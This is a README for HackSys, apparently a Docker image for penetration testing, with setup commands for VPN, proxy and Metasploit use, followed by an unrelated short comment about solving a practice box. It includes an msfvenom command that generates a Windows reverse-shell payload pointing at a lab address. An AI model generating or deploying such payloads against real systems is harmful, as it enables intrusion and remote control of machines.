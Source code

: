 [![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](https://github.com/antfie/HackSys/blob/master/LICENSE)

# HackSys

HackSys is a Docker image Anthony uses for penetration testing. It's main features are:

* Alpine based
* <4GB
* Security tools installed:
  * nmap
  * [sqlmap](http://sqlmap.org/)
  * [impacket](https://github.com/SecureAuthCorp/impacket)
  * SecLists
  * searchsploit
  * [evil-winrm](https://github.com/Hackplayers/evil-winrm)
  * [CeWL](https://digi.ninja/projects/cewl.php)
  * wfuzz
* Development tools installed:
  * Python
  * Go
  * Java
  * Ruby
* Easy to add in new capabilities via `apk add`
* Has a built-in SOCKS5 proxy (via SSH tunnel)
* Zsh

## Running

First pull down the latest container:

```
docker pull antfie/hacksys
```

### VPN

Replace `antfie.ovpn` with your openVPN configuration file and run the main VPN container with this:

```
docker run -it --rm -v $PWD/antfie.ovpn:/app/vpn --cap-add=NET_ADMIN --device /dev/net/tun --name vpn -p 9000-9100:9000-9100 --sysctl net.ipv6.conf.all.disable_ipv6=0 --entrypoint openvpn antfie/hacksys vpn
```

### SOCKS5 Proxy (For Burp)

```
docker run --rm -it --network=container:vpn --name proxy --entrypoint ssh-proxy antfie/hacksys
```

### General Host

Use this command for most activities:

```
docker run --rm -it --network=container:vpn -v $PWD:/app antfie/hacksys
```

To mount stuff e.g. NFS shares you will need to add this parameter `--cap-add SYS_ADMIN`.

### Other Tools

It's easy to attach other tools to the VPN container to make use of the VPN connection.

#### Metasploit

```
docker run --rm -it --network=container:vpn -v $PWD:/app metasploitframework/metasploit-framework
```

#### MSF Venom

```
docker run --rm -it --network=container:vpn -v $PWD:/app --entrypoint bash metasploitframework/metasploit-framework
```

To use MSF Venom:

```
./msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.32 LPORT=4189 -f csharp > /app/x
```

#### Kali

```
docker run --rm -it --network=container:vpn -v $PWD:/app kalilinux/kali-rolling
```

## Building

```
docker pull alpine
docker build -t antfie/hacksys .
```

## Docker Maintenance

Remove all containers and images:

```
docker rm -f $(docker ps -a -q)
docker rmi $(docker images -q)
```



---


Found the foothold user pretty quickly. Made my list OK (it turns out it did include the correct pw). There is some code I adapted to find the right password, but it didn't work (need to understand why at some point). After several hours of scratching around I entered the correct password manually as it stood out to me.
From there getting user and root were pretty quick, but learnt some good stuff along the way. Thanks to @egotisticalSW for the fun box!
Feel free to reach out if you need a nudge.